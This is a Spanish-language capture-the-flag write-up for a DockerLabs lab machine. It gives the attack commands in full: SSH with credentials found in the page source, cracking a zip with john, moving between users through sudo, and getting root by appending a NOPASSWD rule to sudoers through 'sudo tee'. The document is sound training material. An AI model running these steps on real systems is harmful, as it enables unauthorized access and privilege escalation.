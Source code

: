 nmap: 80, 8899
![image](https://github.com/user-attachments/assets/3640f876-af5a-4520-8312-e1baa9297e3c)


---

en la pagina principal da un usuario "rosa" y posibles contraseñas en texto plano txt y un sha384:
![image](https://github.com/user-attachments/assets/e5b6b0b1-ddc1-46da-b4d1-14900eaf7de0)


      -UO2eT0CpHqdSJQ6hJty5KVphtPhzWj9WO1clHTMGa3JDZwrnQq4sF86dIHNDz0W1
los pasamos por un sha384: https://emn178.github.io/online-tools/sha384.html

y nos da: 

>e762c3709721038d65fa8365bbd50e88fd5515f56ee41c64e157607793d1bc8ce2ffd67a6e93431008b0cce67fa70c57

si voy a formulario de la pagina principal y voy al código fuente encontramos esto:
![image](https://github.com/user-attachments/assets/8332872b-8231-4713-8063-99ce0c01c9d9)

"rosa:lacagadenuevo" (posible contraseña)
probamos:

     - ssh rosa@172.18.0.2 -p 8899 (porque el puerto 22 esta cerrado)

vemos que podemos entrar:

![image](https://github.com/user-attachments/assets/f944088b-07c4-44f3-ab79-afb6f5c66152)


encontré esto:

![image](https://github.com/user-attachments/assets/5af3897b-ba52-4fde-be0a-01cd25f6cc20)


dentro vamos a la carpeta: cd > cd ./- > abrimos un servidor y en nuestro terminal un curl:

     curl http://172.18.0.2:8080/backup_rosa.zip --output rosa.zip

nos pasamos el zip

![image](https://github.com/user-attachments/assets/af76f6a6-3cb2-4d7c-845b-c4e590ebb4d1)


nos pide una contraseña así que intentamos un "john"

         zip2john rosa.zip > hash_zip
          john hash_zip

y nos da la contraseña:
![[dockerlabs/medio/bashpariencias/contraseña1.png]]
ingresamos a la terminal victima y con al contraseña vemos lo que dice en "password.txt"
contraseña: hackwhitbash
![[contraseña2.png]]
probamos con "juan" y ahora somos el usuario "juan"
con sudo -l  vemos que carlos ejecuta "tree / cat" 
colocamos:

    sudo -u carlos tree /home/carlos

da que tenemos un directorio con nombre "password" hacemos un
    
    sudo -u carlos cat /home/carlos/password

nos da la contraseña de carlos: chocolateado
![[contraseña3.png]]


con sudo -l  y carlos ejecuta un "tee"
buscamos en: https://gtfobins.github.io/gtfobins/tee/
y seguimos los pasos:

    LFILE=/etc/sudoers.d/carlos
     echo "carlos ALL=(ALL) NOPASSWD: ALL" | sudo tee -a "$LFILE"

ejecutamos "sudo su"
![[dockerlabs/medio/bashpariencias/root.png]]
 y somos root!.

